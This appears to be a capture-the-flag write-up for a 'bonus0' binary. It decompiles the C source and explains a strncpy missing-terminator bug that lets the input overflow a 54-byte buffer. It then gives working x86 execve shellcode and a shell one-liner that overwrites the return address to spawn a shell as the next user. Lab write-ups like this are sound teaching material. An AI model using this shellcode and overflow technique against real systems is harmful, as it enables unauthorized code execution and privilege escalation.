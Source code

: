 bonus0
======

Decompilation
-------------

The program looks like this:
```c
#include <stdint.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void p(char *dest, const char *s)
{
	char buff[0x1000];

	puts(s);

	read(0, &buff, 0x1000);

	*strchr(buff, '\n') = '\0';

	strncpy(dest, buff, 20);
}

void pp(char *dest)
{
	char dest_a[20];
	char dest_b[20];

	p(dest_a, " - ");
	p(dest_b, " - ");

	strcpy(dest, dest_a);

	dest[strlen(dest)] = ' ';

	strcat(dest, dest_b);
}

int main(void)
{
	char dest[54];

	pp(dest);

	puts(dest);

	return 0;
}
```

The main calls the pp funtion, which calls the p function twice, on two different destinations.

The p function shows a prompt, reads the standard input into a big buffer, replaces the new-line character with a NUL-byte, and copies up to 20 bytes from the big buffer to the destination.

Afterwards, the pp function concatenates both inputs, using the space character as a separator.

For example, if we input the lines "AAAA" and "BBBB", the resulting string will be "AAAA BBBB":
```sh
(echo "AAAA"; sleep 0.1; echo "BBBB") | ./bonus0
```
```
 -
 -
AAAA BBBB
```

Exploitation
------------

Everything works as intended as long as the lines length do not exceed 19 characters.

If we input a longer string, the NUL-terminator will be missing from the 20 bytes that are copied to the destination.

Let's see how strncpy would handle this situation:
```sh
man strncpy
```
```
The strncpy() function is similar to strcpy(), except that at most n  bytes  of  src  are  copied.

Warning: If there is no null byte among the first n bytes of src, the string placed in dest will not be null-terminated.
```

This means that the string stored in dest would not be terminated, and the following call to strcpy would continue to copy the memory following it, until a terminator is found.

```sh
(echo $(printf '%.0sA' {1..20}); echo $(printf '%.0sB' {1..4})) | ./bonus0
```
```
 -
 -
AAAAAAAAAAAAAAAAAAAABBBB BBBB
```

Because the memory following the first string is the second string, it is copied twice.

The final destination buffer is 54 bytes long. We can try to overflow it and overwrite the stored return pointer.

Because the second string is copied twice, and both are separated with a space, we need to account for them to get the right length.
```
len = len_a + 1 + 2 * len_b + 1 = 54

len_a = 20
len_b = (54 - 20 - 1 - 1) / 2 = 16
```

To fill the buffer, we need the second string to be exactly 16 bytes long.

```sh
(echo $(printf '%.0sA' {1..20}); echo $(printf '%.0sB' {1..16})) | ./bonus0  | tail -n1 | wc -c
```
```
54
```

We can determine the address of the destination buffer using gdb, put some shellcode at the beginning and overflow with the buffer's address, to return onto it.

```sh
gdb -batch -ex 'b * 0x080485b4' -ex 'r' -ex 'p (const char *)$eax' ~/bonus0
```
```
...
Breakpoint 1, 0x080485b4 in main ()
$1 = 0xbffff716 "\377\377\001\001"
```

I will reuse the shellcode from level2 again.
Because it is 21 bytes long, we need to put the last byte on the beginning of the second line and adjust the padding length.
```sh
LC_ALL=C # Count bytes instead of graphemes

SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LINE_A="${SHELLCODE:0:20}"
LINE_B="${SHELLCODE:20:1}$(printf '%.0sB' {1..13})"$'\x16\xf7\xff\xbf'B

(echo "$LINE_A"; sleep 0.1; echo "$LINE_B"; sleep 0.1; echo whoami) | ~/bonus0
```
```
bonus1
```